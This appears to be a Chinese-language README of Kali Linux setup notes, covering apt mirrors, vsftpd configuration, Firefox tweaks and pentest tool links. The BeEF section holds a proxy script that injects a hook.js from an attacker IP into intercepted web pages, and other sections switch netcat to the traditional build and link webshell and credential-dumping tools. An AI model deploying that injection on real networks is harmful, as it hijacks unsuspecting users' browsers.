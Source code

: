 # Kali 配置

## 更新源

- 编辑: /etc/apt/sources.list (复制下面内容并保存)

```
#阿里云
deb http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
deb-src http://mirrors.aliyun.com/kali kali-rolling main non-free contrib

#清华大学
deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free
deb-src https://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free

#中科大
deb http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
deb-src http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib

#东软大学
#deb http://mirrors.neusoft.edu.cn/kali kali-rolling/main non-free contrib
#deb-src http://mirrors.neusoft.edu.cn/kali kali-rolling/main non-free contrib

#官方源
#deb http://http.kali.org/kali kali-rolling main non-free contrib
#deb-src http://http.kali.org/kali kali-rolling main non-free contrib
```

## 网络问题

```
service network-manager stop
rm /var/lib/NetworkManager/NetworkManager.state
service network-manager start
```

## 安装输入法

- apt-get install fcitx
- apt-get install fcitx-googlepinyin (谷歌拼音)
- reboot (重启电脑)

## 安装和配置 ftp

- apt-get install vsftpd
- mkdir /home/ftp (新建用户目录)
- chmod 777 /home/ftp (改变文件读写权限)

* useradd -d /home/ftp -s /sbin/nologin ftp (新建用户,如果已有该用户可以用 userdel 删除)
* passwd ftp (设置密码)
* vim /etc/vsftpd.conf

```
listen=YES             #开启监听
listen_ipv6=NO
anonymous_enable=NO    #拒绝匿名访问
local_enable=YES       #允许本地用户登录
write_enable=YES       #开启可写权限
local_umask=022        #实际权限为文件原本的权限-umask
connect_from_port_20=YES
ftpd_banner=Welcome! My friends!    #可以自定义banner
chroot_local_user=YES               #防止用户访问其他目录
allow_writeable_chroot=YES          #如果用户被限定在了其主目录下，则该用户的主目录不能再具有写权限了。如果检查发现还有写权限，就会报错
userlist_deny=NO                    #拒绝访问用户列表
userlist_enable=YES                 #允许访问用户列表
userlist_file=/etc/allowed_users    #允许访问用户列表文件
seccomp_sandbox=no                  #防止各种莫名错误
xferlog_enable=YES                  #记录ftp传输过程
xferlog_file=/var/log/vsftpd.log    #ftp传输日志文件
xferlog_std_format=YES              #使用标准的ftp xferlog模式
```

- vim /etc/allowed_users (添加允许访问的用户`ftp`)
- vim /etc/ftpusers (查看禁止访问用户`删除ftp`)
- vim /etc/pam.d/vsftpd

```
针对auth required pam_shells.so的两种方案
第一种:auth required pam_nologin.so
第二种:#auth required pam_shells.so
```

## 配置 beef

- /usr/share/beef-xss/config.yaml

```
passwd: 密码
host: 本机ip
metasploit配置项  enable:true
```

```
function onResponse(req, res) {
    if( res.ContentType.indexOf('text/html') == 0 ){
        var body = res.ReadBody();
        if( body.indexOf('</head>') != -1 ) {
            res.Body = body.replace(
                '</head>',
                '<script src="http://192.168.0.148:3000/hook.js">'+
                '</script>' +
                '</head>'
            );
        }
    }
}
```

## Firefox ESR 汉化

- apt -y install firefox-esr-l10n-zh-cn (下载安装语言包)
- 打开火狐浏览器右上角的菜单，选择''首选项''
- 向下滑动,到达语言栏(language),点击右边的按钮
- 在 Add 左边选择框中找到 zh-cn,点击 Add 添加
- 点击“确定”，重启浏览器

## Firefox 关闭 GET 请求到 detectportal.firefox.com

- 在 firefox 地址栏输入：about:config
- 搜索:network.captive-portal-service.enabled
- 双击改为 false

## nc,netcat

```
rm /usr/bin/nc
ln -s /usr/bin/nc.traditional /usr/bin/nc
rm /usr/bin/netcat
ln -s /usr/bin/nc.traditional /usr/bin/netcat
```

## 相关工具

- [中国蚁剑](https://github.com/AntSwordProject/AntSword-Loader)
- [Linux 枚举和提权检查](https://github.com/rebootuser/LinEnum)
- [web 密码检索](https://github.com/djhohnstein/SharpWeb)
- [密码检索工具](https://github.com/AlessandroZ/LaZagne)
